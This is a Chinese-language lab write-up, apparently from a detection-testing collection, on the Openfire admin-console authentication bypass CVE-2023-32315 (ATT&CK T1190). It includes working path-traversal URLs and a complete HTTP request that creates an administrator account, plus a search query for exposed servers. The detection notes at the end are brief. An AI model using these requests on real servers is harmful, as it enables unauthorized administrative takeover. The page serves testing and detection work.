



# T1190-CVE-2023-32315-Openfire管理后台认证绕过

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

Openfire是根据开放源Apache许可获得许可的实时协作（RTC）服务器。

在Openfire版本4.7.4和4.6.7及以前，Openfire的Web管理后台存在一处目录穿越漏洞，这将允许攻击者绕过权限校验访问所有受限页面。

空间测绘查询语句：body="Openfire"

参考链接：

- <https://www.zhousa.com/archives/24514.html>
- <https://cn-sec.com/archives/1854597.html>
- <https://104.149.12.130/index.php/2023/06/16/openfire-history.html#title-6>

## 检测日志

HTTP.log

## 测试复现

### 漏洞环境

漏洞环境使用vulhub docker环境

执行如下命令启动一个4.7.4版本的Openfire:

```yml
docker-compose up -d
```

服务器启动后，访问`http://your-ip:9090`你将会被强制跳转到登录页面。

### 漏洞复现

#### 步骤1，验证漏洞是否存在

启动openfire服务器后，访问以下路径，验证漏洞是否存在。

```
http://localhost:9090/setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp
```

成功未授权访问日志文件，证明存在Openfire管理后台认证绕过漏洞

#### 步骤2，获取JSESSIONID和csrftoken

访问以下路径，获取获取JSESSIONID和csrftoken

```
http://localhost:9090/setup/setup-s/%u002e%u002e/%u002e%u002e/user-groups.jsp

http://localhost:9090/login.jsp?url=%2F%2Fsetup%2Fsetup-s%2F%25u002e%25u002e%2F%25u002e%25u002e%2Fuser-groups.jsp
```

#### 步骤3，构造数据包创建用户

构造数据包如下：

```
GET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=csrftoken&username=admin&name=&email=&password=admin&passwordConfirm=admin&isadmin=on&create=Create+User HTTP/1.1
Host: localhost:9090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: csrf=csrftoken
```

更多利用方法，可参考链接中的内容。

POC地址：

- <https://github.com/tangxiaofeng7/CVE-2023-32315-Openfire-Bypass>

这里直接使用脚本进行模拟测试：



## 测试留痕





流量包见同目录下pcap文件。

## 检测规则/思路

研判分析要点：

- 结合流量上下文，URL路径和返回信息
- 关注状态码信息，并非都是200

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

盘点一下OpenFire的漏洞CVE-2023-32315

<https://104.149.12.130/index.php/2023/06/16/openfire-history.html#title-6>
